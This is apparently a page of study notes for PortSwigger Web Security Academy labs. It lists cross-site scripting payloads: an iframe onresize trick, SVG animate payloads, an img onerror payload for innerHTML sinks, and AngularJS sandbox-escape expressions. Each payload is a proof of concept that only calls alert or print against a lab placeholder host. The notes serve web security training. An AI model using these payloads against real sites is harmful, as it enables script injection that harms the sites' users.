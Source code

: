 ```javascript
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search="><body onresize=print()>" onload=this.style.width='100px'>
```

* The first quotation mark that is in the payload and the angle brackets need to be encoded.
  
```javascript
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

<br>

### SVG markup payload

* Payload to try if the application is allowing to render \<svg\> tags, can be found on Portswigger XSS Cheat Sheet.

```html
<svg><animatetransform onbegin=alert(document.domain) attributeName=transform>
```

<br>

### Reflected XSS with event handlers and href attributes blocked

```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

<br>

### DOM XSS – Input is within the .innerHTML() Sink

* If user-controllable source is passed to the .innerHTML() sink, then we can use an \<img\> tag, for example, to execute JavaScript.  The .innerHTML() property will not execute \<script\> tags.

```html
<img src=x onerror=alert(1)>
```

<br>

### DOM XSS - AngularJS Expression

* If the application is using Angular JS, try injecting the following payload to the input fields and see if the expression is getting processed –> {{2+2}} = 4

   * Example:  https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss

```javascript
{{ this.constructor.constructor('alert("foo")')() }}
```

```javascript
{{$on.constructor('alert(1)')()}}
```

